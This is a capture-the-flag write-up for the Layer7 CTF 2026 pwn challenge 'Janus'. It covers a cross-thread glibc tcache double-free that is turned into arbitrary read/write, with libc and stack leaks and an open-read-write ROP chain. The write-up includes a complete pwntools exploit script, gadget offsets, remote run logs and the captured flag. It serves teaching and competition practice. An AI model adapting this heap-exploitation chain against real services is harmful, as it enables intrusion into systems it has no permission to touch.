


Janus¶
VERIFIED PWN 966 pts id 6
| Field | Value |
|---|---|
| Event | Layer7 CTF 2026 |
| Category | pwn |
| Points | 966 |
| Solved at | 2026-11-21 10:08:53+07:00 |
| Flag | Layer7{0569ee87cf4cff0a6341f0688f8a62eb3dab9e693203b5d8e883978aa85999fa} |
| Status | VERIFIED |
Janus¶
TL;DR¶
janus is a small "ledger" service with two worker threads, one for each
side of the ledger. reflect duplicates a ledger entry (same pointer, opposite
side). Dropping both halves frees the same chunk once through worker 0 and once
through worker 1. Because glibc's tcache is per-thread, the double-free is not
detected: the chunk lands in two different tcache lists. Allocating it once on
each side yields two live entries that reference the same chunk.
That gives a cross-thread tcache double-free and, with the standard safe-linking
trick, a fully arbitrary pointer allocation. An unsorted-bin chunk leaks libc;
reading environ leaks the stack; ror(page0[0], 17) ^ secret-style defenses
were not needed in the end. Overwriting the saved return address of the command
loop with a short ORW ROP chain reads /flag.
The remote glibc is 2.39-0ubuntu8.9 (not the local 2.39-0ubuntu8.12).
The exact offsets were confirmed by reading remote libc bytes through the
arbitrary-read primitive.
Recon¶
$ python3 l7.py chall 6
{
"id": 6, "title": "Janus", "category": "pwn", "points": 966,
"connection_info": "nc 104.105.149.249 18473\nnc 104.105.138.8 18473",
"file_name": "for_user.zip"
}
$ unzip -o for_user.zip
Archive: for_user.zip
inflating: janus
inflating: Dockerfile
inflating: flag
inflating: README.md
$ cat README.md
# janus
Remote: `nc 104.105.149.249 18473`
Local: `docker build -t janus-local .` then `docker run --rm -p 127.0.0.1:1337:1337 janus-local`.
The included flag is fake. The remote service uses a separate real flag.
$ cat flag
Layer7{**fake_flag**}
janus is a stripped PIE with full RELRO, NX, stack canaries and CET
properties (IBT/SHSTK). No stack leak was present in the binary itself, so the
plan was to bootstrap arbitrary read/write from the allocator bug.
$ checksec ./janus
RELRO: Full RELRO Stack: Canary found NX: NX enabled
PIE: PIE enabled FORTIFY: Enabled SHSTK: Enabled IBT: Enabled
The menu:
JANUS ledger v4
new SIDE SIZE | reflect ID | turn ID | drop ID | forget ID
peek ID OFFSET LENGTH | mark ID OFFSET HEX | audit | quit
>
Analysis¶
The service keeps 48 entries of 24 bytes each at .bss+0x5060:
struct entry {
uint64_t ptr; // +0x00
uint64_t size; // +0x08
uint8_t side; // +0x10 (0 or 1)
uint8_t used; // +0x11
uint8_t pending; // +0x12
uint8_t link; // +0x13
};
Each side is a worker thread. new SIDE SIZE asks worker SIDE to call
malloc(SIZE); drop ID asks the entry's side worker to call free(ptr).
mallopt(M_ARENA_MAX, 1) is called at startup, so both workers use the main
arena, but each worker still has its own tcache.
The relevant commands:
reflect IDclones entryIDinto a free slot, shares the pointer, flips the side bit, marks both entriespendingand links them to each other.drop IDfreesptrthrough the worker selected byentry.sideand zeroes the entry.forget IDzeroes an entry without freeing the pointer (only allowed in the policy-locked state).peek/markread / writeentry.ptr + offset, bounds-checked againstentry.size.
Core bug: cross-thread tcache double-free¶
reflect creates two entries sharing the same chunk with opposite side bits.
Dropping one half frees the chunk into worker 0's tcache; dropping the other
half frees the same chunk into worker 1's tcache. The tcache double-free check
compares e->key against the current thread's tcache, so the second free is
not detected. The chunk is now present in two independent tcache lists.
Allocating the size class on both sides returns the same chunk twice:
new 0 1024
reflect 0
drop 0
drop 1
new 0 1024 # returns X from tcache0
peek 0 0 8 # -> safe-linked next = X >> 12 (heap leak)
new 1 1024 # returns the same X from tcache1
After this, two live entries point to the same chunk. Dropping the side-0 entry
frees X into tcache0 while the side-1 entry can still mark X. Overwriting
X->next with target ^ (X >> 12) plants target in tcache0.
One subtlety: glibc checks tcache->counts[idx] > 0 before using the bin.
Freeing a single chunk leaves count == 1, so after popping the poisoned chunk
the fake target is never returned. The exploit therefore keeps two chunks in
tcache0: a head chunk Q and the tail chunk P. Q->next is poisoned, so the
first new pops Q (count 1) and the second new returns the target.
Leaks¶
- libc: allocate a
0x500-byte chunk followed by a guard chunk,reflectit, drop one half. The freed chunk goes to the unsorted bin;peekof the mirrored entry readsfd = bk = libc + 0x204b20. - stack: with the arbitrary-pointer primitive, allocate an entry whose
pointer is
libcbase + 0x20bd58 - 0x18(slightly beforeenviron, so tcache_get'se->key = 0store does not clobberenviron), and readenvironat offset0x18. - The address of the command loop's saved return slot is derived from the
input line buffer. The buffer is at
rsp + 0x5f0; the function frame is0xb38bytes, so the saved return address isbuffer + 0x548. For the--serveentry path (argc == 2) this isenviron - 0x188; this was verified remotely by reading the stack and checking that the slot contains a PIE return address (PIE + 0x16b8).
Remote libc identification¶
Local Ubuntu 24.04 has glibc 2.39-0ubuntu8.12, but the remote service runs
2.39-0ubuntu8.9. The remote version string was read directly through the
arbitrary read:
GNU C Library (Ubuntu GLIBC 2.39-0ubuntu8.9) stable release version 2.39.
The exact libc6_2.39-0ubuntu8.9_amd64.deb was obtained from Launchpad and the
following offsets were verified byte-for-byte against the remote mapping:
puts 0x087cc0 MATCH
open 0x11b3f0 MATCH
read 0x11bd20 MATCH
write 0x11c830 MATCH
exit 0x047ba0 MATCH
pop rdi;ret 0x10c08d MATCH
pop rsi;ret 0x110b7d MATCH
pop rbp;ret 0x028a91 MATCH
pop rdx;leave;ret 0x09828d MATCH
The final chain calls open("/flag", 0), read(3, buf, 0x100),
write(1, buf, 0x100), then exit(0). Because glibc's open wrapper clobbers
rdx with the mode argument, the chain sets rdx again before read and
before write using pop rdx; leave; ret pivots.
Exploit¶
The complete solver is work/6/solve.py:
#!/usr/bin/env python3
# Janus (Layer7 CTF 2026) exploit
# Cross-thread tcache double-free -> tcache poisoning -> arbitrary read/write
# -> overwrite saved return address of the command loop -> ORW("/flag")
import sys, time, re, struct, os
from pwn import *
context.log_level = 'error'
context.arch = 'amd64'
BIN = os.path.join(os.path.dirname(os.path.abspath(__file__)), 'janus')
# ---- remote libc: Ubuntu 24.04 glibc 2.39-0ubuntu8.9 ----
LIBC_PATH = '/tmp/libc89/usr/lib/x86_64-linux-gnu/libc.so.6'
MAIN_ARENA_LEAK_OFF = 0x204b20 # leaked ptr = libcbase + this (unsorted bin fd/bk)
ENVIRON_OFF = 0x20bd58 # &environ
OPEN_OFF = 0x11b3f0
READ_OFF = 0x11bd20
WRITE_OFF = 0x11c830
EXIT_OFF = 0x47ba0
POP_RDI = 0x10c08d # pop rdi; ret
POP_RSI = 0x110b7d # pop rsi; ret
POP_RBP = 0x28a91 # pop rbp; ret
POP_RDX_LEAVE = 0x9828d # pop rdx; leave; ret
def load_libc():
pass
class Janus:
def __init__(self, io):
self.io = io
self.io.recvuntil(b'> ', timeout=5)
def cmd(self, s):
self.io.send(s.encode() + b'\n')
return self.io.recvuntil(b'> ', timeout=5)
def _id(self, r):
m = re.search(rb'ID (\d+)', r)
if not m:
raise RuntimeError('expected ID, got %r' % r)
return int(m.group(1))
def new(self, side, size):
return self._id(self.cmd('new %d %d' % (side, size)))
def reflect(self, i):
return self._id(self.cmd('reflect %d' % i))
def drop(self, i):
r = self.cmd('drop %d' % i)
if b'OK' not in r:
raise RuntimeError('drop %d: %r' % (i, r))
def forget(self, i):
r = self.cmd('forget %d' % i)
if b'OK' not in r:
raise RuntimeError('forget %d: %r' % (i, r))
def peek(self, i, off, ln):
r = self.cmd('peek %d %d %d' % (i, off, ln))
line = r.split(b'\n')[0]
if not re.fullmatch(rb'[0-9a-f]*', line) or len(line) % 2:
raise RuntimeError('peek %d: %r' % (i, r))
return bytes.fromhex(line.decode())
def mark(self, i, off, data):
r = self.cmd('mark %d %d %s' % (i, off, data.hex()))
if b'OK' not in r:
raise RuntimeError('mark %d: %r' % (i, r))
# ----- primitives -----
def leak_libc(self):
big = self.new(0, 0x500)
guard = self.new(0, 0x40) # keep freed big chunk out of top
mir = self.reflect(big)
self.drop(big)
d = self.peek(mir, 0, 16)
self.forget(mir)
return int.from_bytes(d[:8], 'little')
def prep_pair(self, size):
"""double free a chunk across both worker tcache lists, then allocate it
twice -> two live entries sharing one chunk; returns (ida, idb, S=chunk>>12)."""
a = self.new(0, size)
b = self.reflect(a)
self.drop(a)
self.drop(b)
xa = self.new(0, size) # pop from tcache of worker 0
S = int.from_bytes(self.peek(xa, 0, 8), 'little')
xb = self.new(1, size) # pop from tcache of worker 1
return xa, xb, S
def arbitrary_ptr(self, target, size):
"""Return id of a fresh entry whose ptr == target (16-byte aligned,
writable). Uses a fresh size class for every call."""
Pa, Pb, SP = self.prep_pair(size)
Qa, Qb, SQ = self.prep_pair(size)
self.drop(Pa) # tcache0: [P]
self.drop(Qa) # tcache0: [Q -> P]
self.mark(Qb, 0, (target ^ SQ).to_bytes(8, 'little')) # Q->next = target
self.new(0, size) # pops Q, head = target
idt = self.new(0, size) # pops target
return idt
def build_chain(libcbase, S, path=b'/flag'):
"""Return (region_to_mark, BUF, PATH)."""
PIVOT1 = S + 0x40
PIVOT2 = S + 0xa0
PIVOT3 = S + 0x100
PATH = S + 0x180
BUF = S - 0x300 # runtime buffer, below the hijacked frame
q = lambda x: struct.pack('<Q', x & 0xffffffffffffffff)
# initial return slot: set rdx and pivot into stage 1
chain = q(libcbase + POP_RBP)
chain += q(PIVOT1)
chain += q(libcbase + POP_RDX_LEAVE)
chain += q(0x100)
# stage 1: open(path, 0); then set rdx again and pivot to stage 2
stage1 = q(0) # rbp consumed by leave
stage1 += q(libcbase + POP_RDI) + q(PATH)
stage1 += q(libcbase + POP_RSI) + q(0)
stage1 += q(libcbase + OPEN_OFF)
stage1 += q(libcbase + POP_RBP) + q(PIVOT2)
stage1 += q(libcbase + POP_RDX_LEAVE) + q(0x100)
# stage 2: read(3, BUF, 0x100); set rdx again and pivot to stage 3
stage2 = q(0)
stage2 += q(libcbase + POP_RDI) + q(3)
stage2 += q(libcbase + POP_RSI) + q(BUF)
stage2 += q(libcbase + READ_OFF)
stage2 += q(libcbase + POP_RBP) + q(PIVOT3)
stage2 += q(libcbase + POP_RDX_LEAVE) + q(0x100)
# stage 3: write(1, BUF, 0x100); exit(0)
stage3 = q(0)
stage3 += q(libcbase + POP_RDI) + q(1)
stage3 += q(libcbase + POP_RSI) + q(BUF)
stage3 += q(libcbase + WRITE_OFF)
stage3 += q(libcbase + POP_RDI) + q(0)
stage3 += q(libcbase + EXIT_OFF)
region = bytearray(0x190) # S .. S+0x190
region[0x00:0x20] = chain
region[0x40:0x40+len(stage1)] = stage1
region[0xa0:0xa0+len(stage2)] = stage2
region[0x100:0x100+len(stage3)] = stage3
region[0x180:0x180+len(path)+1] = path + b'\x00'
return bytes(region), BUF, PATH
def exploit(io, environ_delta):
j = Janus(io)
leak = j.leak_libc()
libcbase = leak - MAIN_ARENA_LEAK_OFF
if libcbase & 0xfff:
raise RuntimeError('bad libc base %#x' % libcbase)
# --- read environ (choose T so tcache_get's key=0 write misses environ) ---
env_addr = libcbase + ENVIRON_OFF
T = (env_addr - 0x18) & ~0xf
t_env = j.arbitrary_ptr(T, 0x400)
E = int.from_bytes(j.peek(t_env, env_addr - T, 8), 'little')
if not (0x7f0000000000 <= E <= 0x7fffffffffff):
raise RuntimeError('environ looks wrong: %#x' % E)
S = E - environ_delta
T2 = (S - 8) & ~0xf
t_stk = j.arbitrary_ptr(T2, 0x3f0)
region, BUF, PATH = build_chain(libcbase, S)
off = 0
while off < len(region):
chunk = region[off:off+0x100]
j.mark(t_stk, (S - T2) + off, chunk)
off += len(chunk)
io.send(b'quit\n')
try:
out = io.recvrepeat(3)
except EOFError:
out = b''
return out
def main():
if len(sys.argv) < 2 or sys.argv[1] == 'local':
io = process(BIN)
print(exploit(io, 0x180))
elif sys.argv[1] == 'serve':
host = sys.argv[2] if len(sys.argv) > 2 else '127.0.0.1'
port = int(sys.argv[3]) if len(sys.argv) > 3 else 1337
print(exploit(remote(host, port), 0x188))
elif sys.argv[1] == 'remote':
print(exploit(remote(sys.argv[2], int(sys.argv[3])), 0x188))
else:
print('usage: solve.py [local|serve|remote HOST PORT]')
if __name__ == '__main__':
main()
Cross-thread tcache poisoning in detail¶
prep_pair(size):new 0allocatesX,reflectmirrors it to side 1.dropboth halves →Xis freed once through each worker thread.new 0andnew 1allocateXtwice; the first allocation leaksX >> 12from the safe-linkednextfield.- Prepare
PandQ(two different chunks), drop their side-0 halves so tcache0 containsQ -> P. - Write
target ^ (Q >> 12)toQthrough the still-live side-1 entry. - Two
new 0calls popQand then return the target. The second call writeskey = 0attarget + 8, so the target must be writable; this is whyenvironis read viaenviron - 0x18.
The initial new 0 0x500 chunk is larger than the tcache limit (0x410), so
freeing it goes to the unsorted bin and leaks libc + 0x204b20.
Evidence¶
Running the exploit against the remote service (reproduced twice):
$ python3 solve.py remote 104.105.149.249 18473
b'Layer7{0569ee87cf4cff0a6341f0688f8a62eb3dab9e693203b5d8e883978aa85999fa}\n
\x00\x00\x00\x00\x00\x00\x00\x01... (stack bytes from the 0x100-byte read)'
Clean flag extraction:
$ python3 - <<'EOF'
import sys,re
sys.path.insert(0,'.')
import solve
from pwn import remote
io=remote('104.105.149.249',18473)
out=solve.exploit(io,0x188)
print(re.search(rb'Layer7\{[0-9a-f]+\}',out).group(0).decode())
EOF
Layer7{0569ee87cf4cff0a6341f0688f8a62eb3dab9e693203b5d8e883978aa85999fa}
Submission:
$ python3 l7.py submit 6 'Layer7{0569ee87cf4cff0a6341f0688f8a62eb3dab9e693203b5d8e883978aa85999fa}'
200 {
"correct": true,
"ctf_state": "active"
}
work/6/submit.json:
{
"submitted_at": "2026-11-21T03:08:53.669228+00:00",
"challenge_id": "6",
"flag": "Layer7{0569ee87cf4cff0a6341f0688f8a62eb3dab9e693203b5d8e883978aa85999fa}",
"http_status": 200,
"response": {"correct": true, "ctf_state": "active"}
}
Files in work/6/:
solve.py— final exploit (libc leak → stack leak → ORW ROP).audit_lib.py— helper used while investigating theauditcallback (reimplementation offcn.17e0,encode_callback/decode_callback); kept for reference, not needed by the final exploit.submit.json— proof of the accepted submission.for_user.zip,janus,Dockerfile,README.md,flag— challenge files.
Reference libc used for offset verification:
libc6_2.39-0ubuntu8.9_amd64.deb
sha256 ff5557d99b51f761c4b7c92368b9cc45565eda17df9bf9eb4b134d09825008be
libc.so.6
sha256 3a15d66867d83762c7f2f1e37359cb8f6c5743edb369c65285cb0b1c4f7498bf
Remote offset verification (arbitrary read of the remote libc mapping):
puts 0x087cc0 MATCH
open 0x11b3f0 MATCH
read 0x11bd20 MATCH
write 0x11c830 MATCH
exit 0x047ba0 MATCH
pop_rdi_A 0x10c08d MATCH
pop_rdi_B 0x10f88b MATCH
pop_rsi 0x110b7d MATCH
pop_rdx_leave 0x09828d MATCH
pop_rbp 0x028a91 MATCH
Flag¶
Layer7{0569ee87cf4cff0a6341f0688f8a62eb3dab9e693203b5d8e883978aa85999fa}
Evidence¶
Platform submission¶
{
"submitted_at": "2026-11-21T03:08:53.669228+00:00",
"challenge_id": "6",
"flag": "Layer7{0569ee87cf4cff0a6341f0688f8a62eb3dab9e693203b5d8e883978aa85999fa}",
"http_status": 200,
"response": {
"correct": true,
"ctf_state": "active"
}
}

Captured solver transcript¶
Full raw log: evidence/6-janus-transcript.txt

Flag¶
Layer7{0569ee87cf4cff0a6341f0688f8a62eb3dab9e693203b5d8e883978aa85999fa}
Submitted and accepted on the platform at
2026-11-21 10:08:53+07:00(Asia/Jakarta).